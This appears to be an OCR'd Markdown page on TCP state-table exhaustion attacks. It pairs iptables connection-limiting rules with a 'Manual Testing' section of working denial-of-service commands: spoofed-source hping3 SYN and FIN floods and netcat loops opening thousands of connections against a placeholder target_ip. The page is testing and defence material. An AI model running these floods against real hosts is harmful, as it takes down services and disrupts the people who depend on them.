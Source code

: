 ```bash
# Per-source connection limiting
iptables -A INPUT -p tcp -m state --state NEW -m recent --set --name conn_limit
iptables -A INPUT -p tcp -m state --state NEW -m recent --update --seconds 60 --hitcount 20 --name conn_limit -j DROP
```

## 🔧 Attack Tools & Commands
- **hping3**: State creation and manipulation
- **nmap**: Connection state testing
- **scapy**: Custom state exhaustion scripts
- **netcat**: Connection establishment

### Manual Testing:
```bash
# Basic SYN state exhaustion
hping3 -S -p 80 --flood --rand-source target_ip

# Established state exhaustion
for i in {1..10000}; do
    nc target_ip 80 &
done

# FIN_WAIT state creation
hping3 -F -p 80 --flood target_ip

# TIME_WAIT state generation
for i in {1..1000}; do
    echo "GET / HTTP/1.0" | nc target_ip 80 &
done

# Mixed state exhaustion
for state in S F R A; do
    hping3 -$state -p 80 --flood target_ip &
done
```

## 💡 Historical Context
- **Early Firewalls**: Simple state table attacks
- **NAT Era**: Router state table exhaustion
- **Modern Stateful**: Advanced state tracking attacks
- **Cloud Security**: Distributed state exhaustion

## 📊 TCP State Resource Consumption
| TCP State | Memory Usage | Typical Timeout | Attack Difficulty |
|-----------|--------------|-----------------|-------------------|
| SYN_RECV | 64-128 bytes | 60-180 seconds | Easy |
| ESTABLISHED | 128-256 bytes | 300-7200 seconds | Medium |
| FIN_WAIT | 96-192 bytes | 60-120 seconds | Medium |
| TIME_WAIT | 64-128 bytes | 60-240 seconds | Easy |
